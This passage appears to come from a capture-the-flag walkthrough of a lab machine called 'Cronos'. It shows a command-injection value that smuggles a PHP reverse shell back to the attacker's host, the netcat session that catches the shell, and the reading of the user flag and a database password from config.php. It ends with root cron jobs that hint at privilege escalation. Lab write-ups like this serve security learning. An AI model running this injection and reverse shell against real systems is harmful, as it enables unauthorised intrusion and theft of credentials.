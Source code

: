 So why don't we execute a php reverse shell

```
8.8.8.8 & php -r '$sock=fsockopen("10.10.14.51",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```

Which will give us a shell for our listener

```
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.172.234] 57870
bash: cannot set terminal process group (1625): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ uname -a
uname -a
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos:/var/www/admin$
```

With this user we can fetch the user flag

```
www-data@cronos:/var/www/admin$ ls -al /home/noulis/user.txt
ls -al /home/noulis/user.txt
-r--r--r-- 1 noulis noulis 33 Mar 22  2017 /home/noulis/user.txt
www-data@cronos:/var/www/admin$
```


While looking around in our initial directory there is a file config.php that gives us directions for the database access

```
www-data@cronos:/var/www/admin$ cat config.php	
cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

This seems not to be necessary info though.

With psspy we can identify some scheduled activities that might be of interest

```
2022/01/06 19:54:01 CMD: UID=0    PID=4857   | sh -c stty -a | grep columns 
2022/01/06 19:55:01 CMD: UID=0    PID=4875   | php /var/www/laravel/artisan schedule:run 
2022/01/06 19:55:01 CMD: UID=0    PID=4874   | /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1 
2022/01/06 19:55:01 CMD: UID=0    PID=4873   | /usr/sbin/CRON -f 
```
